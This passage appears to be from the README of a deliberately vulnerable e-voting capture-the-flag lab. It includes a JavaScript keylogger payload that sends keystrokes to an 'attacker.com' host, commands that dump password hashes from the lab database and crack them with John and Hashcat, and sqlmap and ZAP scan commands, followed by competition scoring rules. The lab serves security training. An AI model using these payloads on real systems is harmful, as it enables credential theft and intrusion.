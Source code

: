 ```html
var keys='';
document.onkeypress=function(e){
  keys+=String.fromCharCode(e.which);
  if(keys.length>10){
    new Image().src='http://attacker.com/log?k='+keys;
    keys='';
  }
}
</script>
```

### Password Cracking
```bash
# Extract hashes from database
mysql -h localhost -u root -proot_password evoting \
  -e "SELECT Username, Password FROM person_info" > hashes.txt

# Crack with John the Ripper
john --format=raw-md5 hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

# Crack with Hashcat
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

### Automated Scanning
```bash
# Full automated scan
python3 evoting_exploiter.py http://localhost:8181

# Targeted SQLMap scan
sqlmap -u "http://localhost:8181/evoting/electioninfo2016.php" \
  --forms --batch --dump --threads=5

# Comprehensive ZAP scan
zap-cli quick-scan --self-contained --start-options '-config api.disablekey=true' \
  http://localhost:8181/evoting/
```

---

## 🎪 Competition Mode

### Capture the Flag Rules
1. Each flag is worth points based on difficulty
2. First to find gets bonus points
3. Must document exploitation method
4. Must provide remediation recommendation
5. Time-based scoring: Faster = More points

### Scoring Formula
```
Base Points + Time Bonus - Hints Used = Final Score

Base Points:
- Easy (100-150)
- Medium (150-200)  
- Hard (200-300)
- Expert (300-500)

Time Bonus:
- First 30 min: +50%
- 30-60 min: +25%
```